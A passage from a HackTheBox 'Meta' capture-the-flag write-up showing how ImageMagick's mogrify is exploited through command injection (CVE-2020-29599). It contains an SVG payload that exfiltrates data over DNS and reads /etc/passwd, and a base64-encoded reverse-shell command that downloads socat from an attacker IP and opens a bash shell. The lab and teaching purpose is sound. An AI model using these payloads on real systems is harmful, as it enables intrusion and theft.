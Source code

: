 **TLDR: `mogrify` is to resize an image, change image's format and more.**

So, in the `/usr/local/bin/convert_images.sh` Bash script, it's finding all files in `/var/www/dev01.artcorp.htb/convert_images/` directory, and format those files to PNG format.

Hmm... I wonder if `mogrify` has any vulnerability...

**We can find its version via:**
```shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ mogrify -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
[...]
```

- ImageMagick version: `7.0.10-36`

**Upon researching, I found [this website](https://www.infosecmatter.com/nessus-plugin-library/?id=145561), which talks about ImageMagick command injection (CVE-2020-29599).**

> ImageMagick before 6.9.11-40 and 7.x before 7.0.10-40 mishandles the `-authenticate` option, which allows setting a password for password-protected PDF files. The user-controlled password was not properly escaped/sanitized and it was therefore possible to inject additional shell commands via `coders/pdf.c`. (From [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-29599](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-29599))

**In the "Public Exploits" section, there's [a GitHub repository](https://github.com/barrracud4/image-upload-exploits):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Meta/images/Pasted%20image%2020230816163635.png)

**In `SVG/Shell_Injection_CVE-2020-29599`, we can find some payloads:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Meta/images/Pasted%20image%2020230816163728.png)

**`cve-2020-29599-nslookup-dnsbased.svg`:**
```xml
<image authenticate='ff" `nslookup $(whoami).pdf-shell-inj-cve-2020-29599.TARGET_DOMAIN`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

This SVG payload leverages one of the out-of-band exfiltration technique, DNS exfiltration, via exploiting the `-authenticate` option.

- Create a `poc.svg` SVG payload, and modify the command to a reverse shell payload:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|17:23:03(HKT)]
└> echo -n "wget http://10.10.14.19/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP:10.10.14.19:53 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane" | base64 -w0
d2dldCBodHRwOi8vMTAuMTAuMTQuMTkvc29jYXQgLU8gL3RtcC9zb2NhdDsgY2htb2QgK3ggL3RtcC9zb2NhdDsgL3RtcC9zb2NhdCBUQ1A6MTAuMTAuMTQuMTk6NTMgRVhFQzonL2Jpbi9iYXNoJyxwdHksc3RkZXJyLHNldHNpZCxzaWdpbnQsc2FuZQ==
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|17:23:23(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/linux/x86_64 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
